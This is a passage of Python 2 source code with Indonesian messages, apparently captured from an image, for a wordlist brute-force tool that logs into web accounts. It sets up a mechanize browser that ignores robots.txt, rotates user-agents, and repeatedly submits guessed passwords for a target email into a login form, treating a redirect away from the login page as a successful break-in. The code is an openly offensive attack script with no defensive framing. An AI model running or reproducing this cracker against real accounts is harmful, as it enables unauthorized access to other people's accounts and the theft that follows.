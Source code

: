                 sys.exit()

        else:

                print RR+"Pilih yg bener cuk..."

                edit_wordlist()

def main():

        global noobs

        noobs = mechanize.Browser()

        cj = cookielib.LWPCookieJar()

        noobs.set_handle_robots(False)

        noobs.set_handle_redirect(True)

        noobs.set_cookiejar(cj)

        noobs.set_handle_equiv(True)

        noobs.set_handle_referer(True)

        noobs.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)

        runn_noobs()

        life()

        print " "

        print RR+" wordlist tidak ada yg cocok..."

        print " "

def iqbalz(iqbalz_password):

  try:

 	sys.stdout.write(GG+"\n[\033[91m+\033[92m]\033[91;1m [\033[97m"+email_target+"\033[91m]\033[90m Mencoba ==> \033[91m[\033[90;1m"+iqbalz_password)

	sys.stdout.flush()

	noobs.addheaders = [('User-agent', random.choice(useragents))]

	site = noobs.open(login)

	noobs.select_form(nr = 0)

	noobs.form['email'] = email_target

	noobs.form['pass'] = iqbalz_password

	tom = noobs.submit()

	mask = tom.geturl()

	if mask != login and (not 'login_attempt' in mask):

                        print " "
